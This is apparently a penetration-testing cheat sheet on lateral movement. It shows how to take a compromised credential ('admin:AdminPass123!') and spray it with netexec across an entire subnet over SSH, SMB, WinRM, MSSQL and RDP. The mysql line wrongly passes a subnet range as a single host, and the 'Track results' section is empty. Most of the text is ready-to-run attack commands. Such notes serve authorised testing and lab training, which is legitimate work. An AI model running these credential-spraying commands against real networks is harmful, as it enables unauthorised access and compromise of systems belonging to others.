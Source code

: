# Lateral Movement - Moving Between Systems

**Purpose:** ONLY techniques for moving from compromised system to other systems. Assumes you have credentials from credential hunting.

**Prerequisites:** 
- At least one compromised system
- Credentials found (from reconnaissance, exploitation, or cred hunting)

---

## Credential Testing Workflow

### Test Credentials Systematically

**You found: `admin:AdminPass123!`**

**Test it on ALL services:**
```bash
PASSWORD="AdminPass123!"

# SSH (all Linux hosts)
netexec ssh 10.10.10.0/24 -u admin -p "$PASSWORD"
netexec ssh 10.10.10.0/24 -u root -p "$PASSWORD"

# SMB (all Windows hosts)
netexec smb 10.10.10.0/24 -u admin -p "$PASSWORD"
netexec smb 10.10.10.0/24 -u administrator -p "$PASSWORD"

# WinRM
netexec winrm 10.10.10.0/24 -u administrator -p "$PASSWORD"

# MSSQL
netexec mssql 10.10.10.0/24 -u sa -p "$PASSWORD"

# MySQL
mysql -h 10.10.10.0/24 -u root -p"$PASSWORD"
# RDP
netexec rdp 10.10.10.0/24 -u administrator -p "$PASSWORD"
```

**Track results:**

---

## SSH Lateral Movement

### With Passwords

```bash
# Test SSH on all discovered Linux hosts
netexec ssh 10.10.10.0/24 -u username -p 'PASSWORD'
```
